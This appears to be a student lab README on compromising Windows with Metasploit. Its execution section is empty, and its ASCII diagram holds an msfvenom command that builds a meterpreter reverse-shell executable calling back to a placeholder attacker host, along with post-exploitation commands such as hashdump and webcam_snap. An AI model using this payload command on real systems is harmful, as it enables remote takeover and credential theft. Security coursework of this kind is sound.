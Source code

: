 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By V guru Raghav Ponjeevith (212223220027)

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```